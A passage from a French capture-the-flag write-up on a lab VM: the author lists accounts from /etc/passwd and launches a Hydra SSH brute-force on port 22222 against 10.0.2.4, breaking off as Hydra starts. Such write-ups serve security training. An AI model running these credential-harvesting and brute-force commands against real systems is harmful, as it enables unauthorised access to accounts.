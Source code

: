 Après un peu d'exploration, je constate que la commande `cat` a été remplacée.


Je récupere les utilisateur dans le fichier `/etc/passwd` à l'aide de less.
Après extarction, il semble qu'il existe 3 login utilisable, RickSanchez, Morty, Summer,

***Extarcation et identification des users***
```bash
└─$ cat login | grep -v "nologin"
root:x:0:0:root:/root:/bin/bash
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
RickSanchez:x:1000:1000::/home/RickSanchez:/bin/bash
Morty:x:1001:1001::/home/Morty:/bin/bash
Summer:x:1002:1002::/home/Summer:/bin/bash

```

Avant de tenter un brutforce complet sur les utilisateurs, nous allons tenter des tester des tous les couples mot de passe / login que nous avons.

J'utilise l'assistant d'Hydra ce qui me coute un essais pour cause de faute de frape

***Utilisation d'hydra sur le l'accès SSH***
```bash
└─$ hydra-wizard

Welcome to the Hydra Wizard

Enter the service to attack (eg: ftp, ssh, http-post-form): ssh
Enter the target to attack (or filename with targets): usable_password.txt
Enter a username to test or a filename: ^C
                                                                                                                   
└─$ hydra-wizard                       

Welcome to the Hydra Wizard

Enter the service to attack (eg: ftp, ssh, http-post-form): ssh
Enter the target to attack (or filename with targets): 10.0.2.4
Enter a username to test or a filename: usable_login.txt
Enter a password to test or a filename: usable_password.txt
If you want to test for passwords (s)ame as login, (n)ull or (r)everse login, enter these letters without spaces (e.g. "sr") or leave empty otherwise: sr
Port number (press enter for default): 22222    

The following options are supported by the service module:
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-07 16:30:39

Help for module ssh:
============================================================================
The Module ssh does not need or support optional parameters

If you want to add module options, enter them here (or leave empty): 

The following command will be executed now:
 hydra -L usable_login.txt -P usable_password.txt -u -e sr -s 22222  10.0.2.4 ssh

Do you want to run the command now? [Y/n] Y

Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
```